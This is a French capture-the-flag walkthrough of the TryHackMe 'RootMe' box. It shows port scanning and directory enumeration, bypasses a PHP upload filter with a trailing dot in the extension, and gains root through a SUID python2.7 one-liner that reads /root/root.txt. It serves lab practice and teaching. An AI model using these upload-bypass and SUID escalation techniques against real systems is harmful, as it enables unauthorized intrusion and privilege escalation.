



La box RootMe est une box facile de la plateforme TryHackMe. Il y a deux drapeau à récupérer et pour commencer, il nous est fournit une adresse IP.
Reconnaissance #
Commençons par une simple reconnaissance, en plus d’accéder directement via le navigateur, on va voir quels ports sont ouverts sur la machine :
nmap -sT 10.10.49.213
Starting Nmap 7.91 ( https://nmap.org ) at 2025-09-30 21:44 CEST
Nmap scan report for 10.10.49.213
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 37.01 seconds
On voit qu’il y a 2 ports ouverts : le port SSH et le port HTTP qui correspond à l’application web. En accédant à l’application on arrive sur la page dont la capture d’écran sert de bannière, on va donc énumérer les dossiers avec gobuster :
gobuster dir -u http://10.10.49.213 -w ../../SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.49.213
[+] Method: GET
[+] Threads: 10
[+] Wordlist: ../../SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.8.2
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
uploads (Status: 301) [Size: 314] [--> http://10.10.49.213/uploads/]
css (Status: 301) [Size: 310] [--> http://10.10.49.213/css/]
js (Status: 301) [Size: 309] [--> http://10.10.49.213/js/]
panel (Status: 301) [Size: 312] [--> http://10.10.49.213/panel/]
On trouve une page uploads qui nous permet de téléverser des fichiers.
Accès initial #
En essayant de charger des fichiers on s’aperçoit que que l’extension PHP est filtrée par une regex via l’extension du fichier. On essai les classiques %00, .pHp, et surcharge du .htaccess, mais finalement c’est en ajoutant juste un point à la fin que l’on réussi à téléverser notre fichier php .

On peut maintenant exécuter des commandes bash sur la machine.
Escalade de privilège #
Nous ne pouvons pas énumérer les droits sudo car nous n’avons pas le mot de passe de l’utilisateur www-data et que le système ne nous le permet pas. Cependant on trouve quelques fichiers ayant les droits SUID :

On voit que python a un SUID root, c’est un bon candidat pour une escalade de privilège. Nous allons directement essayer d’énumérer le contenu du dossier /root :
/usr/bin/python2.7 -c 'import os;os.setuid(0); os.system("ls -la /root 2>&1")' 2>&1
L’énumération fonctionne ce qui veut dire que nous avons bien les droits root. On peut directement lire le flag /root/root.txt
/usr/bin/python2.7 -c 'import os;os.setuid(0); os.system("cat /root/root.txt 2>&1")' 2>&1
